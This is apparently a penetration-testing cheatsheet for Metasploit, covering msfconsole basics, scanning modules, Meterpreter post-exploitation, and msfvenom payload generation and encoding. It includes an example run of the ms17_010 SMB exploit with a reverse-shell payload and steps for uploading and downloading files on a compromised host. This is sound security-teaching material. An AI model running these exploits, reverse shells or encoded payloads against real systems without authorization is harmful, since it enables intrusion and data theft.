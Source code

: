 title: Metasploit Cheatsheet

category: Pentesting
description: A quick reference guide for essential Metasploit commands, exploit modules, and best practices for penetration testing.

---

## 🛠️ Commands

### **Basic Metasploit Operations**

| Command                        | Description                                       |
| ------------------------------ | ------------------------------------------------- |
| `msfconsole`                 | Launch Metasploit framework                       |
| `search <exploit>`           | Search for available exploits                     |
| `use exploit/<exploit_name>` | Select an exploit module                          |
| `set RHOST <target>`         | Set the target IP address                         |
| `set PAYLOAD <payload_name>` | Choose a payload for exploitation                 |
| `show options`               | Display available options for the selected module |
| `exploit`                    | Execute the exploit                               |

### **Scanning & Enumeration**

| Command                                     | Description                  |
| ------------------------------------------- | ---------------------------- |
| `use auxiliary/scanner/portscan/tcp`      | Perform a TCP port scan      |
| `use auxiliary/scanner/http/http_version` | Identify web server versions |
| `use auxiliary/gather/dns_enum`           | Perform DNS enumeration      |
| `use auxiliary/scanner/smb/smb_version`   | Enumerate SMB versions       |

### **Payloads & Post-Exploitation**

| Command                                         | Description                            |
| ----------------------------------------------- | -------------------------------------- |
| `use payload/windows/meterpreter/reverse_tcp` | Use Meterpreter reverse shell          |
| `sessions -i <session_id>`                    | Interact with an active session        |
| `meterpreter > sysinfo`                       | Display system information             |
| `meterpreter > getuid`                        | Show current user privileges           |
| `meterpreter > upload <file>`                 | Upload a file to the target system     |
| `meterpreter > download <file>`               | Download a file from the target system |

### **Generating Payloads with msfvenom**

| Command                                                       | Description                     |
| ------------------------------------------------------------- | ------------------------------- |
| `msfvenom -p <payload> -f <format> LHOST=<IP> LPORT=<port>` | Generate a payload              |
| `msfvenom -l payloads`                                      | List available payloads         |
| `msfvenom -l encoders`                                      | List available encoders         |
| `msfvenom -e <encoder> -i <iterations>`                     | Encode a payload multiple times |

---

## 🔄 Workflows

### **Performing a Basic Exploit**

1. Launch Metasploit using `msfconsole`.
2. Search for an exploit using `search <exploit>`.
3. Select an exploit using `use exploit/<exploit_name>`.
4. Set the target IP using `set RHOST <target>`.
5. Choose a payload using `set PAYLOAD <payload_name>`.
6. Execute the exploit using `exploit`.

### **Post-Exploitation with Meterpreter**

1. Gain access using a Meterpreter payload.
2. Interact with the session using `sessions -i <session_id>`.
3. Enumerate system details using `sysinfo` and `getuid`.
4. Upload or download files using `upload <file>` and `download <file>`.

### **Generating Custom Payloads**

1. Use `msfvenom -p <payload> -f <format> LHOST=<IP> LPORT=<port>` to create a payload.
2. Encode the payload using `msfvenom -e <encoder> -i <iterations>`.
3. Deploy the payload on the target system.

---

## 💡 Examples

```sh
# Launch Metasploit
msfconsole

# Search for an exploit
search windows/smb/ms17_010

# Use an exploit module
use exploit/windows/smb/ms17_010

# Set target IP
set RHOST 192.168.1.100

# Set payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Execute exploit
exploit
```

---

## 📚 References

- **[Metasploit Cheat Sheet - GitHub](https://github.com/security-cheatsheet/metasploit-cheat-sheet)**
- **[Metasploit Cheat Sheet - Comparitech](https://www.comparitech.com/net-admin/metasploit-cheat-sheet/)**
- **[Metasploit Cheat Sheet: Master the Modules - StationX](https://www.stationx.net/metasploit-cheat-sheet/)**

```
<!-- end list -->
```
